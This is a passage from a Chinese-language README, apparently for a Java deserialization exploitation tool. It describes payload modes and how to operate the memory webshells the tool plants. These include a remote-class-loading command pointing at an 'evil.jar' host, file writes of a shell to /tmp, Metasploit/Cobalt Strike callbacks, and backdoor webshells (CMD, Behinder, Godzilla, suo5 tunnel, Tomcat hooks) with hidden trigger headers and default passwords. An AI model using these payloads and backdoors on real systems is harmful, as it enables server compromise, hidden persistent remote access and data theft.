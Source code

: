 本项目为这两条利用链拓展了除了 Runtime 执行命令意外的多种利用方式，具体如下：

- TS ：Thread Sleep - 通过 `Thread.sleep()` 的方式来检查是否存在反序列化漏洞，使用命令：`TS-10`
- RC ：Remote Call - 通过 `URLClassLoader.loadClass()` 来调用远程恶意类并初始化，使用命令：`RC-http://xxxx.com/evil.jar#EvilClass`
- WF ：Write File - 通过 `FileOutputStream.write()` 来写入文件，使用命令：`WF-/tmp/shell#123`
- 其他：普通命令执行 - 通过 `ProcessBuilder().start()` 执行系统命令，使用命令 `whoami`

与之前的扩展类似，这里也不放截图了。

对于 BeanShell1，还通过 ScriptEngineManager 执行 JS 的方式支持回显或内存马的打入。使用方式同上：`EX-`

### 2.4.5 MSF/CS 上线

使用 MSF 的上线载荷配合远程 Jar 包调用完成 MSF 上线，后续可转 CS。

## 2.5 内存马的使用

针对项目中一键打入的各种内存马，这里提供了通用的利用方式。

### 2.5.1 命令执行及后门类

对于植入的内存马及恶意逻辑，首先为了隐藏内存马，通过逻辑进行了判断，需要在请求 Header 中添加 `Referer: https://QI4L.cn/ `，其次执行不同的逻辑：
这个校验的 header 头部和值可以通过 `-hk "Referer" -hv "https://QI4L.cn/"` 来进行自定义指定。

1. 如果是 <font color="orange">CMD</font> 内存马，程序会从 `X-Token-Data` 中读取待执行的命令，并将执行结果进行回显，这个头部可以通过 `-ch "testecho"` 来指定。

2. 如果是 <font color="orange">冰蝎 Shell</font> 内存马，可使用冰蝎客户端进行连接管理，密码 `p@ssw0rd`, 可以通过 `-pw "1qaz@WSX"` 来指定。

3. 如果是 <font color="orange">哥斯拉 shell</font> 内存马，可使用哥斯拉客户端进行连接管理，pass 值设为 `p@ssw0rd`，key 设为 `key`，哥斯拉内存马同时支持了 RAW 和 Base64,可以通过 `-pw "1qaz@WSX" -gzk "evilkey"` 来指定。

4. 如果是 <font color="orange"> suo5 </font> 内存马，则会直接创建一个 suo5 隧道，可以直接由 suo5 客户端进行连接，suo5 目前对支持了对自定义 Header 头部进行鉴权，生成时可以通过参数 `-hk "User-Agent" -hv "aaaawww"` 指定，如下可正常连接：

   在配置中进行配置。

   项目地址：[https://github.com/zema1/suo5](https://github.com/zema1/suo5)，此项目还在积极更新中，会不定期更新相关代码支持相关功能。

5. 如果是 <font color="orange"> WebSocket </font> 内存马，可使用 WebSocket 客户端进行链接，路径为 `/version.txt`，可以使用 `-u "/aaa"` 来指定。

6. 如果是 <font color="orange"> Tomcat Executor </font> 内存马，程序会从 Header 中的 `X-Token-Data` 中读取待执行的命令，并将执行结果在 Header `Server-token` 进行 Base64encode 回显，可以使用 `-ch "testecho"` 来指定。

7. 如果是 <font color="orange"> Tomcat Upgrade </font> 内存马，需要指定 `Connection: Upgrade` 以及 `Upgrade: version.txt`，程序会从 Header 中的 `X-Token-Data` 中读取待执行的命令，并将结果放回 response 中回显，可以使用 `-u "/aaa" -ch "testecho"` 来指定。

### 2.5.2 Echo 类

对于 Echo 类的回显，是基于在线程组中找到带有指定 Header 头部的请求、执行命令并回显的利用方式。

使用时在 Header 中加入 `X-Token-Data` ，其值为待执行的命令，命令执行结果将回显在 response 中。

### 2.5.3 RMI 内存马
